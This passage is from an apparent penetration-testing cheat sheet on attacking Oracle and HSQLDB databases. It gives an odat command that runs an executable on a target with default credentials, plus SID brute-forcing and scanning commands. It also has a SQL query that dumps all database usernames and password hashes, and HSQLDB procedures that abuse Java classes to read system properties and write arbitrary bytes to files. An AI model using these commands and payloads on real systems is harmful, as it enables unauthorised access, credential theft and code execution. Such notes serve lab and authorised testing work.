     Execute file:
    ./odat.py externaltable -d XE -s 10.10.10.82 -p 1521 -U scott -P tiger --sysdba --exec c:/ writeup.exe
    ```
- Nmap
    ```
    nmap --script oracle-sid-brute (TARGET IP ADDRESS) -p 1521
    ```
- oscanner
    ```
    oscanner -s (TARGET IP ADDRESS)
    ```

### Queries 

- Get all usernames and password: `SELECT Username || ':' || PASSWORD AS credentials FROM DBA_USERS;`
- DB Version: `SELECT * FROM V$VERSION`
- List all tables owned by user: `SELECT table_name FROM user_tables;`
- Get current DB user: `SELECT NAME FROM v$database;`

### References

- <https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573>

## HSQLDB

- <http://hsqldb.org/doc/2.0/guide/sqlroutines-chapt.html#src_jrt_routines>
- <http://hsqldb.org/doc/guide/sqlroutines-chapt.html#src_jrt_routines>
```sql
CREATE FUNCTION getProperty(IN key VARCHAR) RETURNS VARCHAR LANGUAGE JAVA
DETERMINISTIC NO SQL
EXTERNAL NAME 'CLASSPATH:java.lang.System.getProperty'
```
```
VALUES(getProperty('java.class.path'))
```
- `lib/rt.jar` and class path for `public static void \w+\(String`
```sql
CREATE PROCEDURE writeBytesToFilename(IN paramString VARCHAR, IN paramArrayOfByte VARBINARY(1024))
LANGUAGE JAVA DETERMINISTIC NO SQL EXTERNAL NAME
'CLASSPATH:com.sun.org.apache.xml.internal.security.utils.JavaUtils.writeBytesToFilename'
```
```
 call writeBytesToFilename('example.txt', cast ('<HEX>' AS VARBINARY(1024)))
```